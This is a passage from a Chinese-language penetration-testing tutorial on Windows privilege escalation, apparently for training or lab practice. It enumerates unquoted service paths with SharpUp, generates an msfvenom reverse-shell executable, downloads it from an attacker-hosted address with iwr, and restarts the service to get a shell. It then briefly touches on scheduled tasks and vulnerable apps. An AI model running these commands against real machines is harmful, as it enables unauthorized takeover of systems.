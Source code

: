 1. 运行 SharpUp 工具并执行未加引号的服务路径漏洞的枚举，可以使用以下命令并附上适当的参数：

   ```cmd
   SharpUp.exe audit UnquotedServicePath
   ```

**结果**：

- 通过工具枚举出未加引号的服务路径漏洞。

#### 利用

要利用此漏洞，请按照以下步骤操作：

1. 验证服务状态：

   ```cmd
   sc query "Vulnerable Service 1"
   ```

2. 使用 `msfvenom` 创建恶意 exe 文件：

   ```cmd
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service.exe
   ```

3. 在你的 Kali 机器上打开一个监听器。

4. 将恶意可执行文件传输到 `C:\Program Files\Vulnerable Service1`：

   ```powershell
   iwr -Uri http://<ip>:<port>/Service.exe -Outfile "C:\Program Files\Vulnerable Service1\Service.exe"
   ```

5. 尝试确定你是否有权限重新启动服务或重新启动机器：

   ```cmd
   sc stop "Vulnerable Service 1"
   sc start "Vulnerable Service 1"
   ```

**结果**：

- 在你的 Kali 机器上验证反向 Shell。

## 三、测试其他Windows方向

### 计划任务

就像在linux一样Windows也可以通过计划任务提权，只要我们有对计划任务执行的文件的操作权限。

### 存在提权漏洞的应用exp等

Windows应用可能会爆出的漏洞能够导致exp。这块子就需要我们前期信息收集足够仔细。我记得向日葵的特定版本、搜狗输入法的特定版本等应用均爆出过漏洞。这些都是国内的应用，针对国外的软件的话还是要靠遇到时候的快速反应。

## 四、写在最后
